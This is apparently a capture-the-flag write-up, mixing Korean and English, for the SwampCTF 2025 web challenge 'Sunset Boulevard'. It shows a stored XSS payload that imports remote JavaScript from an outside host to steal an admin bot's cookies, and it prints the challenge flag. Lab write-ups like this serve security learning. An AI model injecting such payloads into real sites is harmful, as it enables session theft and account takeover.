 # 🐊 SwampCTF 2025 Writeup - [Sunset Boulevard]

**Category:** [Web]  
**Points:** [100]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---
## 🔍 Recon

![문제 웹](./Pasted%20image%20250403002957.png)

- 팬들이 메시지를 작성할 수 있는 웹페이지 제공
- 관리자 페이지가 존재한다는 소문이 있음
- 힌트에 따르면 `https://artoo.love`를 통한 공격 가능성 존재

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리
![문제 웹](./Pasted%20image%20250403003017.png)
- [ ] Stored XSS 삽입
- [ ] 관리자 봇을 통한 스크립트 실행 유도
- [ ] 세션/쿠키 탈취 또는 플래그 출력

---

## 💉 Exploit

### 🛠️ Step 1. Stored XSS 시도
![문제 웹](./Pasted%20image%20250403003110.png)

- `https://artoo.love`에서 JS 페이로드 생성
- 삽입한 XSS 페이로드 예시:
```
<svg onload="import('//popjs.dev/yOPcj')"></svg>
```

![문제 웹](./Pasted%20image%20250403003153.png)

- 댓글란에 삽입하여 저장 → **Stored XSS** 성공

### 🛠️ Step 2. 쿠키 탈취

![문제 웹](./Pasted%20image%20250403003217.png)

![문제 웹](./Pasted%20image%20250403003242.png)

- 일정 시간 후 관리자 봇이 페이지 방문
- XSS 실행 → 쿠키 전송/세션 탈취 👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [ ] artoo.love
  - [ ] JS 이벤트 삽입 (svg, script 등)

---

## 🍪 Info Leakage or Gain

- 관리자 세션 쿠키 또는 인증 토큰 탈취 가능
- 플래그가 쿠키 또는 응답값에 포함되어 있음

---

## 👑 Accessing the Flag

```
swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
```

---

## 🧠 Conclusion

배운 점, 보안 상 주의할 점, 이 취약점의 영향 요약:

- Stored XSS는 여전히 심각한 위협이 될 수 있음
- 사용자 입력 필터링 및 Content Security Policy 설정이 매우 중요
- 관리자 봇이 입력값을 직접 렌더링하는 구조는 취약함
- 외부 스크립트를 참조하는 단순한 XSS 페이로드도 매우 치명적일 수 있음

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_
